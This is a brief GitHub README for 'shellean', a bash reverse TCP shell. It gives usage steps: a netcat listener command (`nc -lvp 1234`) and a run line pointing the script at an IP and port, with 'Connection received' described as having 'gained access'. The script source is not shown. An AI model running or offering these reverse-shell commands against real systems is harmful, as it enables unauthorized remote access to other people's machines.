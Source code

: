 ## shellean

![Screenshot from 2023-07-19 00-31-00](https://github.com/Nathalon/shellean/assets/69394316/0f035b0e-c18e-41ef-8d75-f8ca21e6d1e7)

**Reverse TCP Shell.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run shellean.sh. `$ ./shellean.sh -a 192.168.1.109 -p 1234`**  
**3. If you get this message `Connection received` it means you gained access.**  

<img src="https://www.vectorlogo.zone/logos/gnu_bash/gnu_bash-icon.svg" alt="bash" width="50" height="50" />

